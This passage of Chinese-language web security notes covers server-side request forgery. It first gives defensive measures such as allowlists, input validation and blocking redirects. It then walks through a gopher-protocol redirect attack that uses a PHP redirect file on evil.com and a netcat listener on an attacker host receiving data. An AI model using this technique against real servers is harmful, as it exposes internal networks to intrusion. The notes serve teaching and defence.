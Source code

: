 * 根据应用程序的设计需求和功能 需要对非本机发出请求的场景 通常分为2种情况
  * 情况1:只需要向"指定"主机(域名/IP)发送请求
    * 修复方案:设置 主机(域名/IP)白名单列表，只允许web应用访问白名单列表中的主机
  * 情况2:需要向"任意"主机(域名/IP)发送请求 无法设置 主机(域名/IP)白名单列表
    * 设置协议白名单 - 仅允许必要的协议 如`http`和`https` 避免攻击者使用其他协议(如 `file://`，`phar://`，`gopher://`，`data://`，`dict://`等) 
    * 输入验证(Input validation)
      * 严格限制参数值的内容 - 参数值内容 视业务而定(如果参数值为IP/域名 可使用编程语言的标准库验证是否为有效的IP/域名)
      * 严格限制参数值的长度 - 字符串的最大长度 视业务而定
      * 字符黑名单检测 - 根据应用程序的实际需求，如果按实际需求参数值中不会有特殊字符，则添加检测逻辑：如果有非预期的非法字符(如 `#` `@` `?` 等)  则`return false` 拒绝向下执行
    * 禁止重定向(Redirect)
      * 301 redirect 永久性转移(Permanently Moved)
      * 302 redirect 暂时性转移(Temporarily Moved)
    * ...

参考 https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Server_Side_Request_Forgery_Prevention_Cheat_Sheet.md

-----

### SSRF利用过程 - gopher协议结合跳转

前提：存在SSRF漏洞的web后端所用的函数支持gopher协议.

攻击者构造http请求中如`gopher://`的payload，发送给web后端，在其服务器上解析gopher协议并向内网IP(或任何网络可达的主机)的任意的port发送TCP协议的数据.

攻击者公网主机ReciveData.com上 监听1337端口:
```
evil.com:# nc -lvp 1337
```

攻击者公网服务器 `evil.com/gopher.php`的内容:
```
<?php
  header('Location: gopher://ReciveData.com:1337/_Hi%0Assrf');
?>
```

攻击者构造HTTP请求发向"存在SSRF漏洞的web服务器",使该服务器发出HTTP请求到 `http://evil.com/gopher.php`, 该服务器得到HTTP Response是一个301/302跳转,如果该服务器跟随了跳转,向`gopher`链接发出请求,则该服务器对指定IP的指定port发送TCP协议的指定数据,实现SSRF

攻击者公网主机(ReciveData.com的TCP port 1337) 收到了"存在SSRF漏洞的web服务器"发来的数据:
```
Hi
ssrf
```

[SSRF Tips](http://blog.safebuff.com/2016/07/03/SSRF-Tips/) `SSRF PHP function` `SFTP Dict gopher TFTP file ldap`


### cURL支持的协议

cURL支持的协议很多
```
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2g zlib/1.2.8  
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp  
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```
